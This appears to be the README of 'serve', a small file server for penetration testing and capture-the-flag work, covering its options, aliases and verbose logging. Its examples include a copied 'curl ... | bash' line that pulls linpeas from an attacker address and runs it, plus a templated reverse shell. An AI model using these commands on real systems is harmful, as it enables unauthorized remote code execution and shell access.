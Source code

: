 ## Usage

```
Usage: serve [OPTIONS] [ASSET] [PORT]

Arguments:
  [ASSET]  File or folder to serve
  [PORT]   Specify alternate port

Options:
  -b, --bind <BIND>                Specify alternate bind address
  -s, --status-code <STATUS_CODE>  Specify status code
      --ssl                        Use ssl
  -v, --verbose                    Verbose output
  -H, --header <HEADER>            Set headers
  -r <REPLACE_MAP>                 Match and replace functions
  -R, --redirect <REDIRECT>        Set permanent redirect to specified location
  -h, --help                       Print help information
  -V, --version                    Print version information
```

### 1. Serve static content

- If no arguments are specified, it serves files from the current directory.
  in [config.yaml](config.yaml).

- If a file is specified as first argument, the option for copying the download command is provided based on the file
  extension:

```bash
$ serve /path/to/linpeas.sh 
Serving /path/to/linpeas.sh at http://10.10.14.6:9000
Copied 'curl -k -s http://10.10.14.6:9000 | bash' to clipboard
```

- The above command can be shortened as:

```bash
$ serve lps
```

given the following entry in [config.yaml](config.yaml):

```yaml
alias:
  lps: "/path/to/linpeas.sh"
```

### 2. Define match replace rules

```bash
$ serve rev -r REPLACE_IP:$ip -r REPLACE_PORT:9000
```

> Reverse shell, template: [rev_shell.sh](examples/rev_shell.sh)

### 3. Use `-v` for more information

```bash
$ serve -v
Serving . at https://10.10.14.6:9000
10.10.14.6 - - [05/Jan/2023 17:21:18] "GET /" 404

<!---------- Request Start ----------

GET /
Host: 10.10.14.6:9000
User-Agent: HTTPie/1.0.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive

----------  Request End  ----------!>
```
